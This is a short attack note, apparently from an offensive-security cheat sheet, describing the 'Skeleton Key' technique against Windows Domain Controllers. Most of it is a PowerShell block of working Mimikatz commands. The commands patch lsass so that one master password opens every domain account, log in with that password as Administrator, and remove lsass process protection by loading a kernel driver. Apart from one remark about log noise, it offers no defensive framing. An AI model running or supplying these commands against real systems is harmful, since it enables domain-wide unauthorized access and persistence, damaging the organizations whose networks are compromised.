 
Skeleton key is a persistence technique where it is possible to patch a Domain Controller (lsassprocess) so that it allows access as any user with a single password.
The attack was discovered by Dell Secureworksused in a malware named the Skeleton Key malware.
All the publicly known methods are NOT persistent across reboots.



```powershell
#Use the below command to inject a skeleton key (password would be mimikatz) on a Domain Controller of choice. DA privileges required
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName dc.abc.example.local


#Now, it is possible to access any machine with a valid username and password as "mimikatz" 
Enter-PSSession –Computername dc–credential example\Administrator
#You can access other machines as well as long as they authenticate with the DC which has been patched and the DC is not rebooted.


#In case lsass is running as a protected process, we can still use the Skeleton Key attack but it needs the mimikatz driver (mimidriv.sys) on disk of the target DC:
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # misc::skeleton
mimikatz # !-
#Note that above would be very noisy in logs -Service installation (Kernel mode driver)
```